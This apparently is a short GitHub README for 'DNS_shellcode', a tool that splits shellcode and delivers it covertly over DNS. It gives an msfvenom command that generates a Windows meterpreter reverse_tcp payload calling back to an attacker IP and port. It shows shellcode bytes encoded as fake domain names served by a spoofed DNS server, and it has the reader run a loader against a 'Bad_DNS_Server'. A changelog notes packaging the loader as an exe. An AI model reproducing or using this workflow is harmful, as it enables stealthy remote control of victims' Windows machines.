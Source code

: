 # DNS_shellcode
DNS_shellcode分离传输脚本
## step.1
- msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.133 lport=5555 -f c > /root/safe/payload.txt

## step.2
将shellcode制作成  IP+地址 的格式
Ipaddress "{payload}.domain.com"
- 1.1.1.0 "0xfc0x480x830xe40xf00xe8.1.com"
- 1.1.1.1 "0xbc0xc80x130xff0x100x08.1.com"

python格式化脚本可参见项目script_format.py

## step.3
#### DNS_Server
- dnsspoof -i eth0 -f dns.txt
listening msf

## setp.4
Execute this python_scripts and input Your Bad_DNS_Server_IP


## 更新日志
2020/2/12

狗林说双方无交互下无法input，改命令格式+pyinstaller的exe格式，很恶心了，待改。
